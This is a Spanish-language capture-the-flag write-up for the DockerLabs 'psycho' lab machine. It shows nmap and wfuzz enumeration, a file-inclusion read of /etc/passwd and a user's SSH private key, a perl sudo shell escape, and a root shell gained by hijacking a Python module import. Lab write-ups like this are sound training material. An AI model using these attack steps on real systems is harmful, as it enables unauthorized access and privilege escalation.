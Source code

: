# 🐧 DockerLabs CTF
## Maquina psycho

###### Dirección IP de la maquina: 172.17.0.2


### 🔧 Paso 1: Escaneo con nmap
```bash
sudo nmap -sSVC -n -nP --min-rate 5000 172.17.0.2
```
#### Puertos abiertos:

- **22/tcp** → SSH
- **80/tcp** → HTTP (Apache)
---


### 🌐 Paso 2: Enumeración Web

Se visitó `http://172.17.0.2/` no se escuentra nada relevante en el contenido salvo un error al final de la pagina. 

![Ver img ](./images/code.png)

### 📂 Paso 3: Enumeración parametros ocultos
parametros  ocultos mediante fuzzing y encontramos el parametro "secret"
```bash
wfuzz -c --hw 169 -t 200 -z file,/usr/share/wordlists/dirb/common.txt -u "http://172.17.0.2/index.php?FUZZ="
```
![Ver img ](./images/fuzz.png)

Modificamos la URL para ver archivos del sistema: 'http://172.17.0.2/index.php?secret=/etc/passwd' en donde se identifica usuario **vaxei** y **luisillo**

![Ver img ](./images/passwd.png)

Se realiza ataque de fuerza bruta a los usuarios vaxei y luisillo y no se encuentra la contraseña.

se procede  a revisar otros archivos importantes y se encuentra archivo **id_rsa** del usuario vaxei. 

![Ver img](./images/id_rsa.png)

### 🔑 Paso 4: Explotación
Guardamos la llave en nuestra maquina kali y nos conectamos a ssh con el usuario **vaxei**
```bash
ssh -i vaxei_key vaxei@172.17.0.2
```
![Ver img](./images/vaxei.png)

### 📈 Paso 5: Escalada de privilegios.

Verificamos si el usuario puede ejecutar algo como otro usuario y efectivamente puede elecutar */usr/bin/perl* como el usuario luisillo

Buscamos en `GTFObins` como aprovechar este binario y ejecutamos el comando 
```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
```


### 📈 Paso 6: Escalada de privilegios a *root*.
Verificamos si luisillo puede ejecutar Binarios como sudo usando *sudo -l*.

Vemos que se puede ejecutar el escript paw.py como **root** al ejecutarlo vemos que hay un error al importar la librería **subprosses**.
![Ver img](./images/vaxei.png)

Aprovechando el error crea mos un archivo **subprocess.py**  con el sigueinte  para crear una shell con privilegios root.

```bash
import os
os.system("bash -p")
```

Nuevamente ejecutamos el script **paw.py** y ganaremos acceso root a la maquina.

![Ver img](./images/root.png)